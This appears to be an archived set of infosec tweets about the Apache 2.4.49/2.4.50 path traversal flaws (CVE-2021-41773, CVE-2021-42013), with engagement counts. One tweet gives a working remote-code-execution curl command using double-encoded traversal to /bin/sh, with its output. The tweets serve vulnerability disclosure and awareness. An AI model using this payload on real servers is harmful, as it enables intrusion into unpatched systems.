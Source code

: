 Details: https://t.co/XmJyzQjUKm

#infosec #cybersecurity #sysadmin #hacking
</blockquote>

* https://thehackernews.com/2021/10/new-patch-released-for-actively.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# roman_soft
**https://twitter.com/roman_soft/status/1446252280597078024 _at 2021-10-07 23:13:08_**
<blockquote>
RCE exploit both for Apache 2.4.49 (CVE-2021-41773) and 2.4.50 (CVE-2021-42013):
root@CT406:~# curl 'http://192.168.0.191/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; id'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
</blockquote>


<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>478</code></td>
<td>Favorites: <code>1086</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1446168197296627717 _at 2021-10-07 17:39:01_**
<blockquote>
"It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives."
</blockquote>


<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
